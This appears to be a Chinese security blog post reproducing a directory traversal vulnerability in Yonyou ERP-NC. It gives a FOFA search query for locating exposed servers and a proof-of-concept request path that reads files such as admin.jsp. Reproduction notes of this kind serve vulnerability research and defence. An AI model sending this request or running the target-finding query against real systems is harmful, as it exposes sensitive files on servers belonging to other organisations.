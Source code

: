 ```yaml
---
title: ⽤友ERP-NC ⽬录遍历漏洞
top: false
categories:
- 渗透测试
tags:
- 漏洞复现
- 用友ERP-NC
date: 2021-04-29 18:15:26
cover: http://image.xpshuai.cn/%E7%94%A8%E5%8F%8Bfofa.jpg
---
```


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8Bpoc.jpg)